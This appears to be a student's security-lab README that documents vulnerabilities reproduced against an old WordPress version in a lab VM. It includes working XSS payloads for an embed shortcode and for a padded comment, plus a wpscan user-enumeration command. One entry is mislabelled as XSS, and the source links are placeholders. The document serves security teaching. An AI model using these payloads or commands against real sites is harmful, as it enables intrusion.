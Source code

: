 ## Unit 7 & 8 Project: WordPress vs. Kali

**Homework Instructions**:

Time spent: **48** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPres

### 1. (Required) Youtube Embedded Cross-Site Scripting

- [ ] Summary: 
- Vulnerability types: XSS
- Tested in version: 4.2
- Fixed in version: 4.7.3
- [ ] GIF Walkthrough: <img src="2022-10-28-12-50-39.gif">
- [ ] Steps to recreate: 
- Create a post with the following text: [embed src='http://www.youtube.com/embed/sss\x3csvg onload=alert(1)\x3e'][/embed]
- [ ] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
  
### 2. (Required) Comment Cross-Site Scripting

- [ ] Summary: 
- Vulnerability types: XSS
- Tested in version: 4.2
- Fixed in version: 4.7.3
- [ ] GIF Walkthrough: <img src="Untitled design.gif">
- [ ] Steps to recreate: 
- Paste the following text in a comment: *<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px AAAAAAAAAAAA...[64 kb]..AAA'></a>* 
- Make sure the character length is 64kb or more.
- [ ] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

### 3. (Required) User Enumeration

- [ ] Summary: 
Vulnerability types: XSS
Tested in version: 4.2
Fixed in version: 4.7.3 
- [ ] GIF Walkthrough: <img src="2022-10-28-12-55-33.gif">
- [ ] Steps to recreate: 
- Paste the following code to kali-linux terminal: wpscan --url wpdistillery.vm --enumerate u
- [ ] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

